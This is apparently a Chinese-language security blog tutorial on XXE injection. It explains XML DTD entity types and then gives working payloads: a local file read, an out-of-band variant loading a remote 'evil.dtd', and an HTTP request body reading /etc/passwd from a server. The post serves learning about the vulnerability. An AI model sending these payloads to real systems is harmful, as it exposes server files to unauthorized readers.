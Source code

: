 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XXE外部实体注入               # 标题 
subtitle:   XXE
date:       2020-04-04              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00 XXE他是谁？
XXE：XML external entity injection,全称外部实体注入，也就是注入漏洞，下面大概展示一下：
<ag> 用户输入 </ag>   此时我们的用户输入如果为 111</ag><ag>222,那么这个语句为```<ag>111</ag><ag>222</ag>```，此时超出预期用户输入，便就是XML注入。
我们的XXE要注重于外部实体注入，那么先学习一下相关基础知识：

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子：
```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE foo [
<!ELEMENT x ANY>
<!ENTITY xxe "jjjj">
]>
<x>&xxe;<x>
```
这里定义了XML 的根元素foo，然后下面有子元素x，其中实体为xxe。
当我们使用的时候只需添加一行
```<x>&xxe；</x>```即可引用，输出的时候&xxe;被替换为jjjj。

这里就要说一下啦外部实体和内部实体，以上就是内部实体了，外部实体为以下例子：
```<!ENTITY  xxe SYSTEM "file://c:/test.dtd">```  
引用外部实体的话，我们一旦对资源有修改都会自动更新，还有一种方法引用公用DTD
```
<!DOCTYPE   根元素名  PUBLIC “DTD标识名” “公用的DTD的URI”>
```

这里简单拓展一下通用实体和参数实体：
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用，```ps：<!ENTITY xxe "jjjj">···<x>&xxe;</x>```
参数实体：
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用
例子如下：
```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
学习到这里我们就应该知道实体构造是个怎么回事了，接下来根据表哥的例子来学习一波：
1、payload：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>

其中evil.dtd内容为：
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">

```
这里CDATA标志能让中括号里面的内容当做元素字符数据的常量部分，而不是xml标记，读取文件中的特殊字符。另外如果直接读取文件中的内容可以使用这个用法：  
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "file:///d:/test.txt">  
]> 
<roottag>&goodies;</roottag>
```
XXE会出现的地方：
在现在前后端分离的时代，一般来说后端负责接收要传入的数据，然后经过一系列的黑盒运算之后将结果以json格式返回给前端，我们的后端可以使api接口也可以是后台代码，xxe经常出现在api接口能解析客户端传过来的xml，而且能直接外部实体引用，例子简单说一下：
我们发出一个http请求后：
```
POST /xxxx HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept:xxxxxx

<?xml version="1.0" encoding="utf-8"?> 
<roottag>XML</roottag>
```
服务器的XML处理器解析后返回：添加成功！！！
我们尝试传入恶意代码：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "/etc/passwd">  
]> 
<roottag>&goodies;</roottag>
```
那么这样服务器的XML处理器解析后，如果没有经过严格的安全审核，会导致服务器端返回敏感文件信息，危害性大。



   
继续 研读：：：：




